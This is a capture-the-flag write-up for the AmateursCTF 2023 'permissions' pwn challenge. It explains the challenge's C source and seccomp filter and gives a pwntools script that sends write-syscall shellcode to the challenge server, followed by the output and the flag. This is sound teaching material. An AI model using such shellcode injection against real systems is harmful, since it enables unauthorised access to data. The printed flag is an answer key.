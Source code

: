 # AmateursCTF 2023

## permissions

> Every programmer should read the [`Intel Software Developer Manuals`[https://cdrdv2.intel.com/v1/dl/getContent/671200] at least once.
>
>  Author: unvariant
>
> [`chal.c`](chal.c) [`chal`](chal) [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
For this challenge a bit of code is given.

```c
int main () {
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    alarm(6);

    int fd = open("flag.txt", O_RDONLY);
    if (0 > fd)
        errx(1, "failed to open flag.txt");

    char * flag = mmap(NULL, 0x1000, PROT_WRITE, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (flag == MAP_FAILED)
        errx(1, "failed to mmap memory");

    if (0 > read(fd, flag, 0x1000))
        errx(1, "failed to read flag");

    close(fd);

    // make flag write-only
    if (0 > mprotect(flag, 0x1000, PROT_WRITE))
        errx(1, "failed to change mmap permissions");

    char * code = mmap(NULL, 0x100000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (code == MAP_FAILED)
        errx(1, "failed to mmap shellcode buffer");

    printf("> ");
    if (0 > read(0, code, 0x100000))
        errx(1, "failed to read shellcode");

    setup_seccomp();

    ((void(*)(char *))code)(flag);
    exit(0);
}
```

What happens here is that the flag is read into a anonymous, private memory file. After the flag was written the memory is made `write only` by calling `mprotect` with `PROT_WRITE`. Afterwards another chunk of memory is allocated (with rwx permission) and some user input is read. The user input is assumed to be shellcode since it's called just before exiting with `flag` pointer as parameter.

```c
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
```

Working around this issue by trying to call `system` to get a shell or call `cat` will not work, since most of the syscalls are forbidden. Allowed are only `read`, `write`, `exit` and `exit_group`.

Another hint given is the [`Intel Software Developer Manuals`](https://cdrdv2.intel.com/v1/dl/getContent/671200). As this code runs on `x64` write permission always imply read, so the solution is to just print the flag content.

When running with gdb we can see that the flag pointer is read to rax and passed via rdi. So calling syscall `write` with one of the two registers and printing to `fd = 1` should give us the flag. 

```
x55ae2bc5054b <main+452>       mov    rdx, qword ptr [rbp - 0x18]
0x55ae2bc5054f <main+456>      mov    rax, qword ptr [rbp - 0x10]
0x55ae2bc50553 <main+460>      mov    rdi, rax
► 0x55ae2bc50556 <main+463>    call   rdx                           <0x7f699189b000>
```

```python
from pwn import *

context.arch = "amd64"

p = remote("amt.rs", 31174)

shellcode = '''
    mov rsi, rdi
    mov rdi, 1
    mov rdx, 40
    mov rax, SYS_write
    syscall
'''

p.sendlineafter(b"> ", asm(shellcode))
p.interactive()
```

```bash
$ python foo.py
[+] Opening connection to amt.rs on port 31174: Done
[*] Switching to interactive mode
amateursCTF{exec_1mpl13s_r34d_8751fda0}
```

Flag `amateursCTF{exec_1mpl13s_r34d_8751fda0}`